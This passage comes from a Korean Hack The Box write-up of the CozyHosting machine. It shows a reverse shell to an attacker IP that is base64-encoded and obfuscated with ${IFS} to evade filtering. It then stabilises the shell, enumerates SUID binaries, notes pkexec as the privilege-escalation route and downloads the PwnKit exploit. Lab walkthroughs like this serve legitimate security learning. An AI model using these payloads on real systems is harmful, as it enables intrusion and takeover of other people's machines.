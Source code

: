 ```bash
echo 'bash -i >& /dev/tcp/10.10.14.74/9999 0>&1' | base64     
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NC85OTk5IDA+JjEK
# 리버스셸 base64로 인코딩

echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NC85OTk5IDA+JjEK' | base64 -d | bash 
# 위 페이로드에 ${IFS} 적용

echo${IFS}'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43NC85OTk5IDA+JjEK'${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash
```

![alt text](img/image7.png)
리버스셸 연결에 성공했다  

## POST-EXPLOIT 

```bash
# 셸 안정화
app@cozyhosting:/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
#ctrl + Z
┌──(root㉿kali)-[~/Hack_The_Box/CozyHosting]
└─# stty raw -echo;fg        
app@cozyhosting:/app$ 

#정보 탐색
app@cozyhosting:/home$ uname -a
Linux cozyhosting 5.15.0-82-generic #91-Ubuntu SMP Mon Aug 14 14:14:14 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux

app@cozyhosting:/home$ find / -perm -4000 -type f 2>/dev/null

/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/pkexec # 권한 상승  취약점
/usr/bin/mount

┌──(root㉿kali)-[~/Hack_The_Box/CozyHosting]
└─# wget https://github.com/ly4k/PwnKit/raw/refs/heads/main/PwnKit
```